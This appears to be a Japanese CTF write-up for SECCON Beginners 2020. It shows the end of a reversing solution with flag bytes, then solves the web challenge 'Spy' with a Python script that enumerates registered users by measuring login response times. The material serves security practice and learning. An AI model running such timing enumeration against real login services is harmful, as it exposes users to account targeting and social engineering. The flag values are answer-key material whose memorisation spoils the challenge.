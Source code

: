 同様の読み方でabStack72の各要素を辿っていくと次の配列が手に入る.
先頭だけは10進数表記なので0x63に読み替える.

`63 74 66 34 62 7b 73 70 34 67 68 33 74 74 31 5f 72 31 70 70 33 72 31 6e 30 7d 0`

# Web
## Spy
```
As a spy, you are spying on the "ctf4b company".
You got the name-list of employees and the URL to the in-house web tool used by some of them.
Your task is to enumerate the employees who use this tool in order to make it available for social engineering.
app.py
employees.txt
```

サーバプログラムとユーザーリストが与えられる.
このリストの中からサーバに登録されているユーザーを特定するとフラグが入手できる.

サーバプログラムからログイン部分を確認すると, ユーザーの存在有無を確認してからパスワードを確認している事が分かる.
パスワードの確認にはハッシュ計算が使われており, ユーザーが存在する場合はその分レスポンスに時間が掛かると予想される.

```
name = request.form["name"]
password = request.form["password"]
exists, account = db.get_account(name)
if not exists:
    return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))
# auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
# You know, it's really secure... isn't it? :-)
hashed_password = auth.calc_password_hash(app.SALT, password)
if hashed_password != account.password:
    return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))
```

以上の結果より, レスポンスに0.1秒以上を要するユーザーをanswerに渡してflagを入手するスクリプトを書いた.

```
import requests
import re

url = "https://spy.quals.beginners.seccon.jp/"
employees = "/root/seccon2020/employees.txt"
password = "a" * 100

with open(employees, "r") as f:
    employees = f.read().split("\n")

members = []
for employee in employees:
    r = requests.post(url, data={"name": employee, "password": password})
    m = re.search(r"It took (.+) sec to load this page.", r.text)
    if float(m.groups()[0]) > 0.1:
        members.append(employee)

r = requests.post(url + "challenge", data={"answer": members})
m = re.search(r"ctf4b{.+}", r.text)
print(m.group())
```
